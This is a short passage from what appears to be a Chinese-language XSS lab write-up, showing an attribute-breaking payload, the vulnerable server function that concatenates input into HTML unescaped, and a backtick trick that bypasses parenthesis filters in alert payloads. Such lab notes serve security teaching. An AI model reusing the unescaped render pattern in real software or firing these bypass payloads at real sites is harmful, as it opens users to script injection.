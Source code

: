 ![image-20220115231023570](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20XSS%E9%9D%B6%E5%9C%BA.assets/image-20220115231023570.png)

```
[html]
<input type="name" value=""><script>alert(1)</script><"">

[server code]
function render (input) {
  return '<input type="name" value="' + input + '">'
}
```



## 0x03——用反引号代替括号

```
<script>alert`1`</script>
```
